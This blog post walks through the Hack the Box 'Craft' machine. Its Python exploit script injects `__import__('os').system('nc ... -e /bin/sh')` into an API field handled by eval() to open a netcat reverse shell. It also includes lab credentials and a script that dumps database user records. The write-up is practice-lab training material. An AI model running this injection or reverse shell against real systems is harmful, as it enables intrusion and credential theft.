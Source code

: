 +++
author = "Nick"
categories = ["api", "CTF", "enumeration", "netcat", "python", "web services", "custom exploit", "Gogs"]
date = 2020-01-04T16:39:23Z
description = ""
draft = false
thumbnail = "/images/2019/08/info.png"
slug = "hack-the-box-craft"
summary = "Welcome back friends! Today we'll be doing the brand new box, Craft. This will be the first time I do a box as it's released and hope to continue this trend! So lets jump in!"
tags = ["api", "CTF", "enumeration", "netcat", "python", "web services", "custom exploit", "Gogs"]
title = "Hack the Box - Craft"
url = "/hack-the-box-craft"
 

+++


Welcome back friends! Today we'll be doing the brand new box, Craft. This will be the first time I do a box as it's released and hope to continue this trend! So lets jump in!

Update: I should probably buy the Pro subscription from HtB. Doing a new box as it's released proved challenging. Often unresponsive and rebooting frequently. Lessons learned I guess.

As always, we kick it off with a standard nmap scan.

```bash
nmap -sC -sV -oA Craft/scan 10.10.10.110
```

We see a pretty limited amount of results.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-15 16:11 EDT
Nmap scan report for 10.10.10.110
Host is up (0.52s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.08 seconds
```

Seems pretty low, lets try another swing at the nmap, but all ports.

![](/images/2019/07/image-21.png)

We see that port 6022 is open. I telnet into the port and get back what looks like some SSH responses.

![](/images/2019/07/image-22.png)

Looks like its using SSH-go as the server on this port. When we try to ssh into that port, we are prompted for a SSH key. We'll come back to this it seems.

We see the site being hosted on the box is talking about an API as well as a link to the API and its git repository, which is also locally hosted. Maybe some API enumeration? The API page has options to execute the API command and return the result back, we might be able to leverage this later on to get it to run something we want. So lets add some hostname entries so we can resolve better. We'll add api.craft.htb, craft.htb and gogs.craft.htb. Now that we can resolve those, lets check it our a bit more in depth.

The first stop will be to take a look at the git repository. In this case we're going to look through the commit history to see what we can find. We'll want to enumerate all of our domains. A run of Dirbuster against gogs.craft.htb and we see our users. If we dig though the personal history, we see that Dinesh has left us a nice script, with authorization inside it!

![](/images/2019/07/image-93.png)

If we take this script and recreate it, we get a valid authentication using those credentials. We can also test it against the API page to validate and download the token. Looks like we can use these credentials to authenticate to gogs.craft.htb as well.

When we are sifting though the notes we see 1 issue. This shows a possible problem with the ABV value.

![](/images/2019/07/image-94.png)

When we look at the changes made, we see it's using the function eval(). This is might be the way in. We can leverage this function to call remote code! More on why eval() is bad, here and here.

So what we'll do is modify the script Dinesh made for testing. We'll simply pass it `__import__('os').system('nc 10.10.10.15.248 1337 -e /bin/sh')` and get a netcat shell back and see what we can find. Here's what our modified code looks like:

```python
#!/usr/bin/env python

import os
import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']
headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)

# create a sample brew with bogus ABV... should fail.
print("Create bogus ABV brew")
brew_dict = {}
brew_dict['abv'] = '15'
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'
json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)

# create a sample brew with real ABV... should succeed.
print("Create real ABV brew")
brew_dict = {}
brew_dict['abv'] = '__import__(\'os\').system(\'nc 10.10.15.248 1337 -e \/bin\/sh\')'
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'Junk'
json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```

After we run our codewe get a netcat connection!

![](/images/2019/07/image-95.png)

Well, this sends us to /opt/app as root, but when we look around, there's nothing here. It seems we're in a docker container. So in this case, we're going to head bad to where we landed and see whats here. When we run dbtest.py, we get back what the script is calling, so maybe we should try and modify it so we can dump some info.

Here's what our modified code looks like:
```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database
print("Host: "+ settings.MYSQL_DATABASE_HOST)
print("User: "+ settings.MYSQL_DATABASE_USER)
print("Password: "+ settings.MYSQL_DATABASE_PASSWORD)
print("Database: "+ settings.MYSQL_DATABASE_DB)
connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                 user=settings.MYSQL_DATABASE_USER,
                                 password=settings.MYSQL_DATABASE_PASSWORD,
                                 db=settings.MYSQL_DATABASE_DB,
                                 cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "select * from user"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```

After we run our script, we get the following back:

![](/images/2019/07/image-96.png)

We now have three login credentials, lets see if any of these work on SSH. No dice. Lets try to log into Gogs with these. Turns our Gilfoyle's works. Now we can browse around what Gilfoyle has been doing. He has another repository as well. On inspection it seems to be the docker container that we are hosting the service in. When we check out the changes, we see a private key. We'll save this file and use it to authenticate via SSH.

![](/images/2019/07/image-97.png)

Great we are in. Now we can snag our user.txt and look for a way to pivot to root. Once we've explored the system, we notice that there is a program called [Vault](https://www.vaultproject.io/docs/install/index.html). I've never worked with this application before but gaining root was actually very easy once I knew what I was looking for and how Vault functions. After reading documentation for a few hours and trying many MANY commands (and failing) to gather what info I could on the structure that was setup, I had to take a step back and rethink the entry points. Then I realized that Vault has documents on SSH and keysigning. Lucky for us [Vault has a document](https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html) on how to do just that! We follow that document through and....

![](/images/2019/08/image.png)

We get in using OTP. To the flag!

![](/images/2019/08/image-1.png)

We did it, both flags captured. This was a fun and new box for me. I learned a lot on some software I've never used before.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

